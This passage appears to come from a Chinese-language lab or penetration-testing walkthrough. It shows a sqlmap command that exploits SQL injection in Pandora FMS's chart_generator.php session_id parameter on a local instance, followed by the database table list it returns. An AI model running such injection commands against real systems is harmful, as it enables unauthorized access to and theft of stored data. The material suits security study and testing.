 #### 表名

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora --tables	
```

```
|————————————————————————————————————|
| taddress_agent                     |
| tagent_access                      |
| tagent_custom_data                 |
| tagent_custom_fields               |
| tagent_custom_fields_filter        |
| tagent_module_inventory            |
| tagent_module_log                  |
| tagent_repository                  |
| tagent_secondary_group             |
| tagente                            |
| tagente_datos                      |
| tagente_datos_inc                  |
| tagente_datos_inventory            |
| tagente_datos_log4x                |
| tagente_datos_string               |
| tagente_estado                     |
| tagente_modulo                     |
| talert_actions                     |
| talert_commands                    |
| talert_snmp                        |
| talert_snmp_action                 |
| talert_special_days                |
| talert_template_module_actions     |
| talert_template_modules            |
| talert_templates                   |
| tattachment                        |
| tautoconfig                        |
| tautoconfig_actions                |
| tautoconfig_rules                  |
| tcategory                          |
| tcluster                           |
| tcluster_agent                     |
| tcluster_item                      |
| tcollection                        |
| tconfig                            |
| tconfig_os                         |
| tcontainer                         |
| tcontainer_item                    |
| tcredential_store                  |
| tdashboard                         |
| tdatabase                          |
| tdeployment_hosts                  |
| tevent_alert                       |
| tevent_alert_action                |
| tevent_custom_field                |
| tevent_extended                    |
| tevent_filter                      |
| tevent_response                    |
| tevent_rule                        |
| tevento                            |
| textension_translate_string        |
| tfiles_repo                        |
| tfiles_repo_group                  |
| tgis_data_history                  |
| tgis_data_status                   |
| tgis_map                           |
```